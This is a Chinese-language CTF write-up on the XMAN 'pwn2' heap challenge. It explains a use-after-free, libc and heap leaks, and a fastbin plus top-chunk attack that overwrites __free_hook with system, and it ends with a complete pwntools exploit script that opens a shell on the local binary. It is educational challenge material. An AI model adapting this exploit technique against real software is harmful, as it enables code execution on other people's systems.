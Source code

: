 ```yaml
---
title: Xman Pwn2
date: 2018-08-27 08:37:40
tags: [CTF, PWN]
categories: XMAN夏令营
---
```

## xman夏令营 pwn2
​	xman堆系列的最后一题，不得不说xman培训的pwn题质量是真的高，4道题，基本上涵盖了所有的堆利用方式。  
	<!--more-->
	这道题可以说还是很骚的，拿到题目先扔进ida看，看到地址是相对文件的偏移就知道开了pie，接着看函数，选单程序pwn多了，拿到题目先看4个函数，增删改查，一般先看增，看他的chunk list是如何存储的，或者有哪些其它的功能，这里就是一个很正常的分配堆快的功能，比较骚的地方是，他会检测用户的输入，一旦用户输入了libc段的地址，程序就会输出一个类似有黑客攻击的信息，然后把你创建的堆快内容全部清零，这样的话你就不能直接构造来写__malloc_hook和__free_hook了，而且程序本身又开了pie，不能写got表，无法得到text段加载地址，什么东西都无法写入，如何构造system去get shell，乍看之下此题竟然无解。  
	虽然一开始体验很不好，但是漏洞还是要找的，继续往下看，看完add去看dele，dele是最容易出问题的地方，大概看了一下就发现dele中没有将chunk list中已经delete过的置null，存在一个uaf(use after free)漏洞。然而有什么用呢？利用这个漏洞我们可以改写free chunk的metadata部分，最终达到一个任意地址写的效果，然而，如果要直接写__malloc_hook或者__free_hook的话还是不行，程序不允许输入libc段地址，那该如何去做。  
	一开始没有想出来，去看了下edit函数，是正常的edit，看了一下保护，发现居然没开canary，于是找程序看有没有可以fake chunk的地方，说不定可以通过泄露libc.environ然后在栈上构造fake chunk，最后用house_of_spirit完成利用。然而遗憾的是并没有发现程序有这样的功能可以在栈上构造fake chunk，而且栈上现有的chunk size无法满足fast bin的检查，很僵。  
	继续想，__malloc_hook和__free_hook还是要写的，不然根本无法完成利用，那如何写，程序不让你直接写，那能否间接写呢？emmmmm，发现可以利用top chunk attack，这个利用方式不涉及直接写libc，metadata也只是size，构造的话一般不会出现libc段的size。  
	那就利用top chunk attack来写__free_hook，首先需要泄露libc地址，这个用unsorted bin直接就可以泄露，接着有个小难点，如何写top chunk size，这里用的是fastbin attack写，毕竟fd指向chunk，而且检查相对unsortedd bin比较简单。构造两个fastbin大小的chunk，由于利用top chunk attack需要泄露top chunk的地址，所以先后free掉两个fastbin chunk，之后就可以leak heap地址了，然后计算下偏移得到top chunk的ptr；接着利用fastbin attack，在top chunk ptr-0x10的位置malloc chunk，这里要绕过size检查，恰好这个size就在前两个构造的fastbin chunk中，edit一下贴着top chunk的chunk，将最后8个字节改成一个稍大点size，同时满足和前两个chunk在同一个fastbin中，这里前两个chunk我分配的是0x60字节，那么这里的size需要是0x70(加上header部分)，这样就能malloc chunk了，之后改top chunk size，设修改的大小为为y，修改之后重新add的chunk大小为x，则想要写__free_got为system必须满足top_ptr+x=free_hook-0x10,y-x-0x10=system，很容易就能得到x为free_hook-top_ptr-0x10,y为system+free_hook-top_ptr,edit一下将free_hook改成system，之后可以在堆上创一个/bin/sh字符串，这样deleti一下就能getshell了。  
	不得不提的是这道题除了之前说的几个难点外还有几个坑点，比较重要的就是top chunk的pre_inuse位这里是为1的，很多人可能为了满足size的条件忽略了这个标志位，若这边p标志位为0的话其实是无法利用的(骚的一批)，所以这里的__free_hook最后其实是syltem+1,试了一下其它的包括y+2,一直到y+8都是可以get shel的(神奇的操作)。    
	还有就是有个tricks，__malloc_hook一般来说用one_gadget写，__free_hook直接用system写，不过这道题的one_gadget写__malloc__hook死活没有成功哈哈也是很僵硬。留下很多坑，以后再填吧。

exp如下：

```
from pwn import *
#context(log_level='debug',arch='amd64',os='linux')
p=process('./pwn2')
elf=ELF('./pwn2')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)
def add(size,x):
	p.recvuntil('choice >> ')
	p.sendline('1')
	p.recvuntil('Please enter the length of the note:\n')
	p.sendline(str(size))
	p.recvuntil('Please enter the data of the note:\n')
	p.sendline(x)

def dele(idx):
	p.recvuntil('choice >> ')
	p.sendline('3')
	p.recvuntil('Please enter the index of the note:\n')
	p.sendline(str(idx))
	
def edit(idx,x):
	p.recvuntil('choice >> ')
	p.sendline('2')
	p.recvuntil('Please enter the index of the note:\n')
	p.sendline(str(idx))
	p.recvuntil('Please enter the data of the note:\n')
	p.sendline(x)

def show():
	p.recvuntil('choice >> ')
	p.sendline('4')

add(0x80,0x80*'a')
add(0x80,0x80*'b')
dele(0)
show()
p.recvuntil('note index 0 : ')
main_arena_88=u64(p.recv(6).ljust(8,'\x00'))-0x58
libc_base=main_arena_88-libc.symbols['__malloc_hook']-0x10
log.info('libc_base > '+hex(libc_base))
one_gadget=0xf02a4+libc_base
one_gadget=0xf1147+libc_base
one_gadget=0x45216+libc_base
malloc_hook=libc.symbols['__malloc_hook']+libc_base
log.info('malloc_hook > '+hex(malloc_hook))
free_hook=libc.symbols['__free_hook']+libc_base
log.info('free_hook > '+hex(free_hook))
system_address=libc.symbols['system']+libc_base
#one_gadget=libc_base+0xf02a4
add(0x80,'0000')
add(0x60,'1'*0x60) #3
add(0x60,'2'*0x50+p64(0)+p64(0x71))
dele(4)
dele(3)
show()
p.recvuntil('note index 3 : ')
heap_address=u64(p.recv(6).ljust(8,'\x00'))-0x70-0x90-0x90
log.info('heap_address > '+hex(heap_address))
edit(4,p64(heap_address+0x90+0x90+0x70+0x60))
add(0x60,'/bin/sh')
add(0x60,'2222')
top_ptr=heap_address+0x90+0x90+0x70+0x70
log.info('top_ptr > '+hex(top_ptr))
#top_ptr+x==free_hook/malloc_hook
#x=free_hook/malloc_hook-top_ptr
#top_size=system=origin-apply
#so origin=system+apply=system+free_hook/malloc_hook-top_ptr
log.info('top_chunk_size > '+hex(system_address+free_hook-top_ptr-0x1))
#add(0x60,p64(0)+p64(one_gadget+free_hook-top_ptr-0x1))
add(0x60,p64(0)+p64(system_address+free_hook-top_ptr-0x1))
add(free_hook-top_ptr-0x10,'\n')
dele(5)
'''
add(0x60,p64(0)+p64(one_gadget+free_hook-top_ptr-0x9))
add(free_hook-top_ptr-0x10,'\n')
dele(8)
'''
'''
add(0x60,p64(0)+p64(system_address+malloc_hook-top_ptr-0x1))
add(malloc_hook-top_ptr-0x10,'\n')
dele(3)
'''
p.interactive()

```

